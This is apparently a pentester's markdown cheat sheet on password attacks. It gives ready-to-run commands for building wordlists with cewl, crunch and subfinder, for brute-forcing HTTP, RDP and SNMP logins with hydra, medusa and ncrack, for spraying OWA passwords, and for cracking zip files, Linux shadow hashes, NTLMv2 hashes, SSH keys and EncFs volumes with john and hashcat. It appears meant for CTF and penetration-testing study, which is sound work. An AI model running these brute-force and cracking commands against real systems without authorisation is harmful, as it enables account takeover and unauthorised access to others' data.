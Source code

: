 ## Generate your wordlist from webpage

- ```cewl -d (depth, crawling) 5 -m (minimum length of word) 3 -w /tmp/wordlists.txt (file generated) <url> --with-numbers (add numbers)```

---

## Generate possible combinations

- Check all parameters in crunch
- Example : ```crunch 6 6 0123456789ABCDEF -o <output>```

---

## Generate usernames
Use script generate_username.py
create a wordlist like this
```
surname
name
surname name
```


---

## Generate custom wordlist from any domain

`echo "<domain>" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[./?=:&#]/\\n/g' | anew`

---

## SQLite 3 can be converted to excel file

---

## Identify hash format in another way

- ```Use hashid.py -m``` (for hashcat module) or ```-j``` (for johntherippers)

---

## Bruteforce zip file

- ```fcrackzip -v -u -D -p rockyou.txt zipfile```

---


## HTTP Bruteforce : 

### Medusa :

- ```medusa -h <url> -u <user> -p <password_file> -M http -m DIR:/admin -T 10```


### Hydra : 

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p <password> <ip target> http-post-form "<uri>:username=^USER^&password=^PASS^:Invalid username"
```

- Explanation : Here we fuzz the username with a post request with "a" as a passowrd and filtering on the error message "Invalid username". Then when we have the good one, we start fuzzing the password. If the key for the data are different (user or else), change by yours.

- https://v3ded.github.io/ctf/pentestit-crm-token-1.html

- https://v3ded.github.io/ctf/htb-nineveh.html

---

## RDP 

- ```ncrack -vv --user <user> -P <password_file> rdp://<IP>```

---

## SNMP


- SNMP : ```hydra -p <password-file> -v <IP> snmp```

---

## Lync/S4B & OWA

Install spraying toolkit
`atomizer owa `

---

## Hashes 

- ```hash-identifier```

- ```john <file> <wordlist>```

### Example for md5

`john <password_file> --format=raw-md5 --wordlist=<dictionnary> --rules`

### For linux password

- ```unshadow <passwd-file> <shadow-file> > unshadowed.txt```

- Then pass it to john :
```john --rules --wordlist=rockyou.txt unshadowed.txt```

---

## Hashcat

- ```hashcat -m (module) (5600 for NTLMv2) <filewithhash> <dictionnary> --force -O``` (optimize)

- If you want to use your graphic card without problems (related to VM), download hashcat on your local machine (not vm) and use it.

### Find examples of hashes 

1. ```hashcat --examples-hashes | more ```
2. or visit this website : https://github.com/frizb/Hashcat-Cheatsheet

---

## Crack encrypted private ssh key

- ```ssh2sshngjohn.py <your_file> ``` (not sure exact syntax)
- copy the output to a file
- ```john <yourfile> --wordlist=<your_wordlist>```

---

## VNC

- https://github.com/frizb/PasswordDecrypts

---

## EncFs

- You should have a folder with your encrypted files, and inside, a .encfs6.xml
- ```encfs2john.py <your folder> > hash ```
- ```john --wordlist=/usr/share/wordlists/rockyou.txt hash```
- Then, when you have the password : ```encfs <encrypted_folder> /tmp/decrypted/ ```

## Define your wordlist 

- Have to watch : 
- https://www.youtube.com/watch?v=W4_QCSIujQ4








